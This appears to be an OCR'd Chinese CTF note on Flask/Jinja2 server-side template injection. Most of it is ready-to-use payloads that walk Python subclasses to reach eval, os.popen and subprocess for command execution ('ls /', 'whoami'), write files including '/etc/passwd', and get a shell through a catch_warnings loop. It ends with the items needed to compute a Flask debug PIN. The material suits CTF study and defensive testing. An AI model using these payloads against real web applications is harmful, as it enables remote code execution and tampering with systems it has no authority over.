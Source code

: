 ```
{{''.__class__.__base__.__subclasses__()[128].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}


#调用 importlib类
{{''.__class__.__base__.__subclasses__()[128]["load_module"]("os")["popen"]("ls /").read()}}


#调用linecache函数
{{''.__class__.__base__.__subclasses__()[128].__init__.__globals__['linecache']['os'].popen('ls /').read()}}
{{[].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache']['os'].popen('ls').read()}}
{{[].__class__.__base__.__subclasses__()[168].__init__.__globals__.linecache.os.popen('ls /').read()}}


#调用communicate()函数
{{''.__class__.__base__.__subclasses__()[128]('whoami',shell=True,stdout=-1).communicate()[0].strip()}}


#写文件
写文件的话就直接把上面的构造里的read()换成write()即可，下面举例利用file类将数据写入文件。
{{"".__class__.__bases__[0].__bases__[0].__subclasses__()[40]('/tmp').write('test')}}  ----python2的str类型不直接从属于基类，所以payload中含有两个 .__bases__
{{''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('/etc/passwd').write('123456')}}


#通用 getshell
原理：找到含有 __builtins__ 的类，利用即可。
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('whoami').read()") }}{% endif %}{% endfor %}
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}{% endif %}{% endfor %}

```

有过滤情况的

http://t.csdnimg.cn/D3yhd

------

### 预期解（文件包含，pin码生成）

得到PIN码需要六个信息，其中2和3易知

1. flask所登录的用户名

2. modname，一般是flask.app
3. getattr(app, “name”, app.class.name)。一般为Flask
4. flask库下app.py的绝对路径。这个可以由报错信息看出
5. 当前网络的mac地址的十进制数。
6. 机器的id。
